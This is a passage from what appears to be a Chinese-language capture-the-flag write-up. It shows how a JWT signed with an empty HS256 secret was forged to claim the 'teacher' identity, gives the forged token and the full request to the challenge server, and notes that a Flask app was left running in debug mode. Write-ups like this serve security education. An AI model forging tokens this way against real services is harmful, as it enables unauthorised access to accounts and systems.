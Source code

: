 
有一个jwt。 jwt.io 可以得到前中两段的base64解码信息，并对最后一段做签名校验：

![](2021-05-23-13-41-13.png)

可以发现需要做的就是把中段的payload改成{"identity": "teacher"}。尝试HS256签名用各种弱口令验证，发现secret实际为空。

于是直接修改payload并按空口令做签名，得到新的jwt

    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZGVudGl0eSI6InRlYWNoZXIifQ.22-u3h1xug6OPI-1gNRT2rFKeZuD8ju29DhCwMEyxaw

并以之为参数直接请求

    http://game.pku.edu.cn/callback?_rand=0.9257834367820181&jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZGVudGl0eSI6InRlYWNoZXIifQ.22-u3h1xug6OPI-1gNRT2rFKeZuD8ju29DhCwMEyxaw&token=...

得到flag：

    感谢你完成实验。这是我们额外赠送给你的flag： flag{D4nG3r0u5_pRoXy_4Nd_s1MpLe_jvvT_10164193}

## 0x06 人生苦短

打开源代码，可以清楚地看到最后一行写着：
~~~py
app.run('0.0.0.0', 5000, True)
~~~

**生产环境不要开Debug(大声)**
